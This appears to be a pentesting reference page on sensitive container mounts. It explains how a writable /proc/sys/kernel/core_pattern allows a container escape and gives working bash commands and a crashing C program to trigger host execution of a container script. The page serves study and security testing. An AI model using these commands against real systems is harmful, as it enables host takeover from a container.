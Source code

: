 # Sensitive Mounts

{{#include ../../../../banners/hacktricks-training.md}}

The exposure of `/proc`, `/sys`, and `/var` without proper namespace isolation introduces significant security risks, including attack surface enlargement and information disclosure. These directories contain sensitive files that, if misconfigured or accessed by an unauthorized user, can lead to container escape, host modification, or provide information aiding further attacks. For instance, incorrectly mounting `-v /proc:/host/proc` can bypass AppArmor protection due to its path-based nature, leaving `/host/proc` unprotected.

**You can find further details of each potential vuln in** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Vulnerabilities

### `/proc/sys`

This directory permits access to modify kernel variables, usually via `sysctl(2)`, and contains several subdirectories of concern:

#### **`/proc/sys/kernel/core_pattern`**

- Described in [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
- If you can write inside this file it's possible to write a pipe `|` followed by the path to a program or script that will be exuted after a crash happens.
-  An attacker can find the path inside the host to his container executing `mount` and write the path to a binary inside his container file system. Then, crash a program to make the kernel execute the binary outside of the container.

- **Testing and Exploitation Example**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Test write access
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Set custom handler
sleep 5 && ./crash & # Trigger handler
```

Check [this post](https://pwning.systems/posts/escaping-containers-for-fun/) for more information.

Example program taht crashes:

```c
int main(void) {
	char buf[1];
	for (int i = 0; i < 100; i++) {
		buf[i] = 1;
	}
	return 0;
}
```
